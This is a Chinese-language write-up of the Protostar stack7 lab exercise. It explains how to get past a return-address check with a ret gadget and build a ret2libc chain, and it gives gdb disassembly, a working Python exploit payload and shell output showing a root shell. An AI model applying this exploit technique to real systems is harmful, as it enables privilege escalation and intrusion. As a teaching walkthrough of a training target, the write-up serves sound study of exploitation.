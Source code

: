 
通过上面的地址映射关系，我们可以看到**只有stack7和heap的地址不是以0xb开头的**。所以我们能不能跳转到这两个地方呢，查看getpath函数的汇编代码，注意最后的这个指令`ret`，CPU执行这个指令都做了什么呢，处理器会将堆栈顶部的地址移到EIP中，并将ESP递增（堆栈向低地址方向扩展）4，也就是相当于“pop eip”，将栈顶元素弹出到eip，然后执行eip中地址指向的指令。

```javas
(gdb) disass getpath
...
0x08048529 <getpath+101>:	lea    edx,[ebp-0x4c]
0x0804852c <getpath+104>:	mov    DWORD PTR [esp+0x4],edx
0x08048530 <getpath+108>:	mov    DWORD PTR [esp],eax
0x08048533 <getpath+111>:	call   0x80483e4 <printf@plt>
0x08048538 <getpath+116>:	lea    eax,[ebp-0x4c]
0x0804853b <getpath+119>:	mov    DWORD PTR [esp],eax
0x0804853e <getpath+122>:	call   0x80483f4 <strdup@plt>
0x08048543 <getpath+127>:	leave
0x08048544 <getpath+128>:	ret
```

所以我们如果将第一个返回地址写入**ret的地址（0x08048544）**，那么执行到他的时候，他会将下面的地址弹出到eip，然后就跟stack6一样了。`__builtin_return_address(0)`只返回第一个返回地址，这个地址我们写入的是`0x08048544` ，这样就能够绕过检查。

| address 1     ret   |
| ------------------- |
| address 2   system  |
| fake_return_address |
| "/bin/sh"           |

### exp

```python
import struct

padding = 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT'

ret = struct.pack('I', 0x08048544)
system = struct.pack('I', 0xb7ecffb0)
bin_sh = struct.pack('I', 0xb7e97000 + 0x11f3bf)

payload = padding + ret + system + 'AAAA'+ bin_sh

print(payload)

```



```shell
user@protostar:~$ (python stack7.py ;cat) | /opt/protostar/bin/stack7
input path please: got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPDRRRRSSSSTTTTD���AAAA�c�
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

